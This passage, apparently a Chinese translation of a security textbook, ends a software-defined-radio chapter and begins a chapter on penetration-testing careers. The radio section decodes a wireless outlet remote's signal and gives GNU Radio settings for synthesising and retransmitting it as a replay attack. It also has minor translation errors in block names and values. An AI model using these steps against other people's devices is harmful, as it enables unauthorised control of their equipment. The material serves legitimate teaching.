既然我们得到了看起来是符号周期的值，就应增加符号数量，查看在整个数据包中是否仍然与短划线的边缘对齐。只需在图表中缩小视图，查看最后一个脉冲对齐的位置即可。在我们的情况中，稍微有点偏差，我需要将周期稍微拉长，使符号周期为 275µs 而不是 272µs。这并不意外，考虑到在此例中初始测量中的任何误差都会被乘以 100。

在确认符号速率和周期后，我们现在可以提取符号并将其转换为二进制数据。为了实现这一点，我们使用中鼠键的幅度图。添加幅度图后，带有三条水平线的新括号会被添加到频谱图中。必须将括号对齐（居中）到符号数据上，才能在新添加的幅度图中获得符号数据的幅度图。在此示例中，当括号居中于符号数据且 Power Max/Min 设置合理时，图表开始看起来像一个方波（参见图 5-9）。一旦方波看起来像一个方波，我们再次使用中鼠键来提取符号。


输出到标准输出（stdout）。提取的值随后在调用 inspectrum 的命令行上打印出来（参见图 5-10）。此时，我们将进入一点 Python 编程，将幅度向量转换为二进制向量以供进一步处理。



图 5-9 幅度图

```
inspectrum -r 4e6
29.7862, 26.6666, 25.8549, -0.996671, 27.8357, -0.998904, -0.998702, -0.994081, 32.7964, -0.999115, -0.997728, -0.999726, 29.0988, 25.6444, 27.6885, -0.994452, 29.8018, -0.995214, -0.997058, -0.993892, 29.0982, -0.988195, -0.99789, -0.999953, 28.6322, -0.990631, -0.999733, -0.999671, 28.468, 28.6255, 28.453, -0.999246, 26.8677, 26.435, 27.8199, -0.998781, 27.6517, 27.5859, 27.9833, -0.998661, 28.8751, -0.997175, -0.995906, -0.997366, 31.9832, 25.9203, 27.4232, -0.999895, 29.0916, 30.0564, 28.2907, -0.997612, 29.7188, -0.999093, -0.99953, -0.990107, 29.4778, -0.998365, -0.999591, -0.996273, 29.0294, -0.992539, -0.997177, -0.994108, 27.9542, -0.988611, -0.997905, -0.991576, 30.1545, -0.994627, -0.999654, -0.999728, 29.7667, -0.990091, -0.997739, -0.996428, 31.4143, -0.99653, -0.997938, -0.99515, 29.1736, -0.999942, -0.994687, -0.997505, 29.8853, -0.998135, -0.995862, -0.992811, 29.1608, -0.998348, -0.998029, -0.99988, 30.197, 29.8323, 28.1554, -0.985482, 30.7071, -0.996123, -0.997081, -0.993444,
```

图 5-10 提取的符号

提取的符号介于 –1 和 45 之间，因此我们需要将其转换为二进制数据以便于处理。一种合理的转换方法是选取一个阈值，大于阈值的视为二进制 1，小于阈值的视为二进制 0。接下来显示的 decode-inspectrum.py 脚本允许用户根据从 inspectrum 提取的值选择阈值。


注意 实际的最小值和最大值将取决于 Power Min/Max 设置。我向 decode 函数添加了 thresh（阈值）参数，以便您考虑不同的值。

```
GH5 > ①ipython
Python 2.7.12 (default, Nov 19 2016, 06:48:10)
Type "copyright", "credits" or "license" for more information.

IPython 2.4.1 -- An enhanced Interactive Python.
?       -> Introduction and overview of IPython's features.
%quickref -> Quick reference.
help    -> Python's own help system.
object? ->

    Details about 'object', use 'object??' for extra details.

In [1]: ②load decode-inspectrum.py

In [2]: #!/usr/bin/env python

import bitstring
from bitstring import BitArray, BitStream

def decode(pfx,thresh,symbols):
    symbolString=''

    for i in symbols:
        if i>thresh:
            symbolString+='1'
        else:
            symbolString+='0'

    hexSymbols =BitArray('0b'+symbolString)
    convertedSymbols = hexSymbols.hex.replace('e','1').replace('8','0')
    print "{0:<12s} {1}".format (pfx,hexSymbols)
    print "{0:<12s} {1}".format (pfx,BitArray('0b'+convertedSymbols[:-1]))
    print symbolString
```

```
In [3]: ①tmp=45.7106, 43.0641, 42.8859, -0.997174, 45.5352, -0.995606, -0.994913, -0.989177, 45.2986, -0.998486, -0.981316, -0.984748, 45.0039, 44.4738, 44.0162, -0.994073, 46.2821, -0.998813, -0.999715, -0.99464, 44.2832, -0.999628, -0.987948, -0.997018, 45.0919, -0.996337, -0.997126, -0.998506, 42.7926, 43.4177, 43.1203, -0.993749, 44.9794, 44.0526, 42.7063, -0.978449, 45.0448, 43.6918, 43, -0.994591, 44.4547, -0.998408, -0.99975, -0.996846, 45.9868, 43.0113, 42.6714, -0.995795, 46.6085, 44.3158, 43.4926, -0.991413, 45.4522, -0.998652, -0.997505, -0.997841, 46.1299, -0.987929, -0.994588, -0.99624, 45.6862, -0.999114, -0.989554, -0.999472, 46.7498, -0.994224, -0.980936, -0.997128, 46.893, -0.997465, -0.995792, -0.999524, 45.7666, -0.995871, -0.997738, -0.99807, 46.2743, -0.999445, -0.993939, -0.993339, 45.9906, -0.996238, -0.998326, -0.99569, 45.12, -0.991933, -0.999887, -0.997144, 44.5068, -0.992277, -0.998709, -0.995844, 45.6867, 43.0238, 43.9998, -0.996441, 44.4935, -0.998675, -0.999503, -0.987789
```

```
In [4]: ④decode("one on",10,tmp)
one on       ⑤0xe88e888eee8e88888888e8
one on       ⑥0x91d801
```

```
⑦1110100010001111010001000100011101111011110100011101111010001000100010001000010000001000100010001000100010001000100010001101000
```

```
In [5]: quit
```

要以交互方式处理数据，我使用 ipython ①，但您可以随意以任何方式运行代码。ipython 的一个好处是您可以随意修改例程并重新加载 ② 它。decode ④ 例程获取来自 inspectrum 的提取符号输出 ③，并以原始十六进制解码 ⑤、转换后的符号解码 ⑥ 和原始二进制解码 ⑦ 的形式打印解码数据。转换后的符号解码基于开关键控似乎有两个符号这一事实。二进制数据反映了相同的两个符号，其中长脉冲为 0xe，短脉冲为 0x8。对所有捕获运行 decode 的结果如下所示：

# 符号的十六进制表示
# 数据按 2 比特、16 比特、7 比特分组

| 项目 | 值 1 | 值 2 |
| :--- | :--- | :--- |
| 遥控器 1 按键 1 开启 | 0xe8 8e888eee8ee88888 | 888888e8 |
| 遥控器 1 按键 2 开启 | 0xe8 8e888eee8ee88888 | 88888e88 |
| 遥控器 1 按键 3 开启 | 0xe8 8e888eee8ee88888 | 8888e888 |
| 遥控器 1 按键 1 关闭 | 0xe8 8e888eee8ee88888 | 8888ee88 |
| 遥控器 1 按键 2 关闭 | 0xe8 8e888eee8ee88888 | 88e888e8 |
| 遥控器 1 按键 3 关闭 | 0xe8 8e888eee8ee88888 | 88e88888 |
| 遥控器 2 按键 1 开启 | 0xe8 ee8eeeeeeee8eeee | 888888e8 |
| 遥控器 2 按键 2 开启 | 0xe8 ee8eeeeeeee8eeee | 88888e88 |
| 遥控器 2 按键 3 开启 | 0xe8 ee8eeeeeeee8eeee | 8888e888 |
| 遥控器 2 按键 1 关闭 | 0xe8 ee8eeeeeeee8eeee | 8888ee88 |
| 遥控器 2 按键 2 关闭 | 0xe8 ee8eeeeeeee8eeee | 88e888e8 |
| 遥控器 2 按键 3 关闭 | 0xe8 ee8eeeeeeee8eeee | 88e88888 |

# 转换后的值（假设 0xe=1 且 0x8=0）

| 项目 | 转换后的值 |
| :--- | :--- |
| 遥控器 1 按键 1 开启 | 0x91d801 |
| 遥控器 1 按键 2 开启 | 0x91d802 |
| 遥控器 1 按键 3 开启 | 0x91d804 |
| 遥控器 1 按键 1 关闭 | 0x91d806 |
| 遥控器 1 按键 2 关闭 | 0x91d809 |
| 遥控器 1 按键 3 关闭 | 0x91d808 |
| 遥控器 2 按键 1 开启 | 0xb7fbc1 |
| 遥控器 2 按键 2 开启 | 0xb7fbc2 |
| 遥控器 2 按键 3 开启 | 0xb7fbc4 |
| 遥控器 2 按键 1 关闭 | 0xb7fbc6 |
| 遥控器 2 按键 2 关闭 | 0xb7fbc9 |
| 遥控器 2 按键 3 关闭 | 0xb7fbc8 |

每个数据包的开头是什么尚不完全清楚，但它始终似乎以二进制 10 开头（在十六进制中表示为 0xe8）。之后，数据仅在不同遥控器之间有所不同，这可能表明存在寻址方案，因为遥控器仅可与配对的插座一起使用。如果我们比较两个遥控器上的相同操作，最后 4 比特显然是正在执行的操作（即，打开插座 1）。如果之前还不明显，现在我们知道重放攻击仅可用于配对的插座。

## 预览

我们现在终于到了所有努力有望得到回报、并可利用分析结果合成自己的数据的阶段。预览步骤的目的是在通过空中发送之前验证我们即将发送的数据看起来是否符合预期。此步骤可以与执行步骤合并，但我认为它足够重要，值得作为一个独立的步骤，以确保我们不会跳过它并直接开始发射。

目前为止，我们创建的流程图相对简单，组件很少。为了从零开始创建信号，我们将使用几个新模块，如表 5-3 所述。图 5-11 中的流程图包含 osmocom 接收块，但请注意箭头是灰色的，块的颜色也不同。灰色的箭头和块表示它们已被禁用。另一个微妙的变化是我们改用 1 MSps，而不是通常的 4 MSps。由于我们正在合成数据，因此无需使用与之前相同的采样率。此外，所选的采样率使得更容易显示符号速率为 275µs。

| 名称 | 用途 | 关注参数 |
| :--- | :--- | :--- |
| 矢量 | 要发送的二进制数据矢量。 | |
| 图案交织器 | 将多个源合并为单个矢量。 | 输入的模式。该模式指示从每个源中获取的值的数量。在此示例中，您将非变化数据与寻址、操作和间隔合并。 |
| 常量源 | 向图案交织器提供恒定的二进制 0，以帮助数据包之间的间隔。 | |
| 重复 | 在传输前根据符号和采样率重复每个二进制值，将二进制模式转换为符号模式。 | 插值：采样率 * 符号速率<br>1 MSps * 275µs/符号 = 275 个采样/符号 |
| 乘法 | 将数据与载波混合（调制）。这实际上会打开和关闭载波频率（开关键控）。 | |
| 源 | 生成载波频率。 | 采样率：1M<br>波形：余弦<br>频率：314.98 MHz |
| osmocom 接收块 | 通过 SDR 发送提供的数据。 | 采样率：1M<br>Ch0：频率：314.98 MHz<br>Ch0：RF 增益：8 |

表 5-3 用于信号合成的新 GNU Radio 模块说明




### 图 5-11 重放流程图：test-preview.grc

这些模式取自遥控器开启命令的二进制表示：

```
Pattern = [0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,1,1,1,1,1,1,1,2,2,2,2,2,2,2,2
,2,2,2,2,2,2,2,2,2,2,2,2,2,2,2,2,2,2,2,2,2,2,2,2,2,2,2,2,2,2,2,2,2,2,2,2,2,2,2,2,2,2,2,2,2,2,2,2
,2,2,2,2,2,2,2,2,2,2,2,2,2,2,2,2,2,2,2,2,2,2,2,2,2,2,2,2,2,2,2,2,2,2,2,2,2,2,2,2]
Input 0 = 28 symbols of zero to create the gap between packets
Input 1 = 8 symbols of Non-Changing Data: 0xe8
Input 2 = 92 symbols of Addressing Data for remote 1 plus the 16 symbols of the
command to turn on outlet 1: 0xe8888eee8ee888888888888
```

运行流程图后，你将获得一个名为 test-preview 的新捕获文件。如果在流程图中没有出错，对 test-preview 捕获文件重复分析步骤应该会得到相同（或相似）的结果（见图 5-12）。



### 图 5-12 预览的 Inspectrum 图

请注意，符号周期的总数为 128，这与带间隙的模式相匹配。

## 执行

我们已验证合成数据与空中接收的数据相似。剩下的唯一事项是启用 osmocom 接收块（见图 5-13），通过执行流程图进行发送，并观察电源插座打开。要启用接收块，只需右键点击该块并选择“启用”。如果你跟着操作，可能会想要禁用文件接收块以尽量减少存储占用。至此，你可以鞠躬致谢了，因为你已使用 SDR 从零开始成功复现了遥控器的功能。



### 图 5-13 最终执行流程图：test-execute.grc

## 摘要

虽然我们使用 GNU Radio 和 SDR 所能做的事情才刚刚冰山一角，但我们成功分析了一个非常简单的射频设备。使用 SCRAPE 流程，我们发现了工作频率、捕获了数据、执行了重放攻击、了解了数据结构，并从零开始合成了数据。你还了解到 GNU Radio 允许你在无需与硬件交互的情况下模拟信号。希望本章已激发你对 SDR 的兴趣，并让你相信该主题并非遥不可及。

## 延伸阅读

- bladeRF https://www.nuand.com/
- GNU Radio 教程 https://wiki.gnuradio.org/index.php/Guided_Tutorial_Introduction, https://wiki.gnuradio.org/index.php/Guided_Tutorial_GRC, 和 https://wiki.gnuradio.org/index.php/Guided_Tutorial_GNU_Radio_in_Python
- HackRF One https://greatscottgadgets.com/hackrf/
- Inspectrum https://github.com/miek/inspectrum
- IPython https://ipython.readthedocs.io/en/stable/index.html
- PyBOMBS https://github.com/gnuradio/pybombs
- 美国业余无线电联盟 www.arrl.org
- 使用 HackRF 的软件定义无线电（Michael Ossmann 教程，HackRF 创建者）https://greatscottgadgets.com/sdr/
- USRP https://www.ettus.com/product/category/USRP-Bus-Series

## 第二部分

## 黑客的商业

- 第 6 章 你想成为一名渗透测试人员吗？
- 第 7 章 红队行动
- 第 8 章 紫队
- 第 9 章 漏洞赏金计划

## 第 6 章

## 你想成为一名渗透测试人员吗？

渗透测试是一个令人兴奋且充满挑战的领域。然而，许多有志于成为渗透测试人员的人不知道从何入手。例如，你可能会想：如何进入该领域？一旦成为资深从业者，如何进一步提升并真正精进技艺？如何开始自主执业？如何为信任我的实体提供最大价值？你应该努力在自己的领域成为世界顶尖，因为追求卓越是一件高尚的事。如果渗透测试是你选择的领域，本章将指导你发展和完善渗透测试职业生涯。

本章包含旨在为有志于成为渗透测试人员的人提供职业路线图的材料。本章还为希望成为渗透测试行业专家的现有从业者提供了一种模型。我们将讨论如何优化努力、提升技能并降低作为渗透测试人员的风险。我们将介绍培训和学位课程、黑客游戏以及夺旗（CTF）竞赛，并让你了解可用于精进技艺的资源。通过少量学习、少量实践和少量指导，你会发现从新手成长为专家是一个可实现的目标。

在本章中，我们将讨论以下主题：

- 从新手到专家的旅程：渗透测试人员精神、渗透测试人员分类、实践资源、培训、学位、专业组织、会议等。
- 渗透测试人员技艺：责任降低、运营风险降低、保险、管理和执行渗透测试项目、报告效率等。

### 从新手到专家的旅程

要在任何领域成为大师，需要熟练技能、热情、对实践的承诺和韧性相结合。从新手成长为专家的挑战，通过学习、实践、指导以及理解成功和失败都并非永久而变得容易。作为一名道德黑客的有回报的职业生涯意味着你会失败（多次），从错误中吸取教训，然后掌握技能——只为发现行业在演变，为你带来下一个挑战。这个循环既无情又美妙。

### 渗透测试人员精神

求知欲是渗透测试人员精神的核心。道德黑客努力理解正在运行的系统并采取行动颠覆它们——不是按照原本设计的方式使用它们，而是以新颖的方式使用它们。黑客攻击一个系统就是理解它，将系统的本质用在它自身上，挑战常规方式。当道德黑客使系统以非预期方式运行时，他们就会重新发明和转变系统。好奇心既不是罪恶也不是犯罪——知识也不是。事实上，以合乎伦理且出于行善意图应用的知识，是我们对抗意图伤害我们之人所拥有的最强大武器之一。我们旨在理解坏人会用来攻击我们的攻击向量，并利用这些知识来防止攻击。

道德黑客攻击至今仍被许多人误解，既引发恐惧也引发好奇。对早期黑客的重罪起诉以及对掌握该技能者的普遍恐惧，导致了一种文化，其中道德黑客高度关注对抗不公、保护我们的权利和自由，并在隐私面临风险时进行抵制。安全研究人员与法院之间动荡的历史导致黑客社区与电子前哨基金会（EFF）和美国公民自由联盟（ACLU）建立了紧密联盟。经常被引用的《黑客宣言》让我们了解早期黑客社区的愤怒、沮丧和反叛精神。《黑客宣言》还涉及渗透测试人员精神中促进平等、正义以及其他行业或社区不常见的包容性的方面。


NOTE 参见本章末尾的“延伸阅读”部分，了解本章中提到的网站、组织和来源的指针。

### 渗透测试人员分类

在讨论所有黑客共有的特质——好奇心时，同样重要的还有讨论我们之间的差异。渗透测试人员可以专精的领域不胜枚举。尽管我们中有极其杰出的个人拥有多个专业领域，但大多数渗透测试人员只专精于少数几个领域。在开始渗透测试职业生涯时，发挥自身优势很重要。

拥有软件开发背景的渗透测试人员可能更多地专注于漏洞开发和代码操纵。过去军事生涯中专精于物理安全的人可能更擅长绕过锁具或操纵摄像头和门。具有工程背景的人可能更适合从事嵌入式设备测试。许多渗透测试人员有广泛的关注点，利用 IT 运维经验专注于攻击企业。有监控控制和数据采集（SCADA）系统工作经验的人倾向于专注于工业控制系统（ICS）的渗透测试，仅仅是因为他们有可以在此基础上扩展的基本了解。目标是承认你拥有的经验，并学习在此知识基础上构建。

### 黑客的未来


随着不同技术向大众普及，例如软件定义无线电（SDR），或新技术被开发出来，例如人工智能（AI）和机器学习系统，我们将看到渗透测试人员在评估和缓解其攻击向量方面发展出专业领域。未来几乎任何“智能”设备都需要被理解、评估，并修复其漏洞。目前，生物医疗设备制造商开始意识到保护其设备的重要性。我设想一个未来：基于先进纳米技术的医疗技术无处不在，而渗透测试人员正在研究如何预防和检测攻击向量。今天看起来像科幻小说的技术将成为明天的现实。未来的技术进步将需要能够胜任保护这些进步挑战的聪明渗透测试人员和安全研究人员。我期待看到我们能想出什么。

## 了解技术

技术将继续发展，变得更加复杂和互联。评估未来技术攻击向量所需的技能将随技术的发展而演变。道德黑客必须具备解决复杂问题的能力，以及保持对新兴技术跟进所需的好奇心和工作态度。最好的渗透测试人员拥有多样化的技能组合，并辅以多个专业领域。成长为专家级渗透测试人员的关键方面之一是学习编程。这就是为什么第 2 章为您提供了一些关于编程生存技能的信息。

在最基本的层面上，渗透测试人员应该理解他们正在评估的技术。了解与您的目标相关的基本技术信息是必要的。如果您正在处理嵌入式硬件或物联网（IoT）设备，了解系统工程和嵌入式 Java 将会有所帮助。如果您正在评估一家提供云服务的公司的边缘安全，那么了解用于创建应用程序和数据库技术的编程语言是一个良好的起点。从事企业评估工作的渗透测试人员将从了解正在使用的操作系统、应用程序和网络技术中获益。例如，如果您正在测试围绕 AS400 系统的环境，那么了解该技术的细微差别以及它与其他技术的不同之处至关重要。

## 了解什么是“好”

除了理解您正在评估的技术之外，对安全运营和最佳实践有扎实的基础理解也很重要。了解特定设备或技术的“好安全”是什么样子，将使您能够正确修复发现的问题。出于这个原因，第 8 章侧重于下一代安全运营。

了解攻击是如何执行的是网络安全的一个方面。然而，渗透测试人员的真正意图是通过了解如何检测和（在可能时）预防他们可以执行的攻击来保护组织。缺乏修复其发现的漏洞知识的道德黑客，缺少一个重要的视角。出于这个原因，我们在第 8 章中包含了关于防御性安全控制的信息。

了解什么是“好”可以有多种形式。新渗透测试人员可以拥有的最有价值的资源之一是找到一位经验丰富的专业人士作为导师。导师不一定非要是你很熟悉或甚至当面交流的人。道德黑客社区一直非常看重知识传递。许多道德黑客通过 Twitter、博客和文章，以及该主题的各种书籍提供有价值的信息。初学者渗透测试人员将从阅读 *渗透测试：黑客入门实战指南*（*作者：Georgia Weidman，No Starch Press，2014*）中获益。这是一本初学者指南，带您了解基础知识，例如设置虚拟机和学习什么是 man 页面。本书随后扩展到防病毒规避和智能手机渗透测试等主题。另一个优秀资源是已发布的许多 *黑客揭秘* 系列丛书。*黑客揭秘* 丛书（同样由 McGraw-Hill Professional 出版）侧重点各异，包括移动、无线和工业控制系统。

## 渗透测试人员培训

有许多培训选择可用，可帮助您培养成为优秀渗透测试人员所需的技能。每年，Black Hat 在其知名会议上提供各种培训选择；SANS 学院提供许多现场和远程培训选择；Offensive Security 也提供一些备受尊重的选择。存在许多渗透测试认证，其难度和质量各不相同，因此从业界公认的来源获得培训很重要。SANS 学院的课程可帮助您准备全球信息保障认证（GIAC）认证渗透测试员（GPEN）考试，是一个良好的起点。然而，Offensive Security 的认证体系，始于 Offensive Security 认证专业人员（OSCP），被广泛认为是渗透测试认证中的佼佼者。在 OSCP 考试期间，您将获得实验室访问权限，并有 24 小时来展示您的黑客技能。成功执行攻击并撰写专业报告的能力将使您获得 OSCP 认证。

其他渗透测试认证包括 EC-Council 的认证道德黑客（CEH）认证。然而，坦率地说，除非认证要求您在实验室中展示您的黑客能力，否则我会将其视为其本身——一份宝贵的资源，它教会您黑客的词汇和流程，而不强制要求您展示黑客技能或撰写渗透测试报告的能力。通过 GPEN 和 CEH 等不要求您在键盘上展示能力的认证获得的任何知识，当然是有价值的。这些认证对行业和渗透测试人员都 certainly 有价值，但了解不同认证所采取的方法之间的差异，以选择对您当前职业生涯最有价值的认证很重要。最好先通过传统认证了解“行业概况”，然后在对自己的键盘操作能力建立信心后，再扩展到 OSCP 风格的认证。

## 实践

最好的培训并不总是在课堂或培训课程中进行；它可能发生在工作中或家庭实验室里。在道德黑客方面，没有什么比实际工作经验更胜一筹了。渗透测试技能最好是在键盘前磨练。大量可用资源包括许多提供黑客练习实验室的公司。这些资源使得今天发展渗透测试技能变得容易得多。

虚拟技术，包括像 Metasploitable 这样故意存在漏洞的虚拟机以及其他资源，使您能够以之前所需工作量的一小部分构建用于测试目的的完整环境。Vulnhub.com 是行业的一颗瑰宝，允许您访问许多为道德黑客提供练习方式而构建的易受攻击的系统（参见图 6-1）。vulnhub.com 上提供的资源比过去更容易获取技能。

## Billu: b0x

此虚拟机使用 Ubuntu（32 位）
使用的其他软件包：
- PHP
- Apache
- MySQL
此虚拟机难度中等，带有技巧。
需要使用 Web 应用程序入侵 VM，然后从那里提升权限以获取 root 访问权限
如有任何疑问，请在 https://twitter.com/IndiShell1046 上与我联系
享受这台机器
SHA1: 66525868A4A20088FA3623C4E270D7031DC19B04DE

## Moria: 1.1

| 名称 | Moria |
|------|-------|
| IP | 通过 DHCP |
| 难度 | 不容易！ |
| 目标 | 获取 root |

描述：
Moria 并非面向初学者的 Boot2Root 虚拟机，它将需要良好的枚举技能和大量的坚持。
该 VM 已在 VMware 和 VirtualBox 上进行过测试，并通过 DHCP 获取其 IP，请确保您在同一
SHA1: 27B98CA41A7B8F5CA4E92C553EB53CB

图 6-1 Vulnhub.com 是一个极佳资源，提供易受攻击的虚拟机和虚拟环境，旨在让渗透测试人员获得实际操作经验。

道德黑客社区确实拥有自己的文化。渗透测试不仅是一种职业选择，更是一项爱好。许多渗透测试人员会在业余时间、晚上和周末参加安全会议，并参与 CTF 活动、黑客马拉松和其他黑客竞赛。CTF 活动有多种形式。有些活动基于传统的 CTF 结构，两支对抗队伍试图渗透对方的 CTF 环境并“抢夺旗帜”，同时试图强化并保护自己的环境免受对方队伍的攻击。面向初学者的著名活动包括“菜鸟 vs. 专业人士”竞赛，初学者在获得一些指导和辅导后，与专业渗透测试人员竞争。CTF 活动还可以是 *Jeopardy 风格* 的锦标赛，道德黑客个人竞赛以解决谜题来揭示“旗帜”。对于居住在小城镇、可能无法轻松访问


线下 CTF 活动之外，还存在大量的线上 CTF 活动。CTF365.com 和 CTFtime.org 等知名网站（如图 6-2 所示）是那些希望在家提升技能的人的宝贵资源。

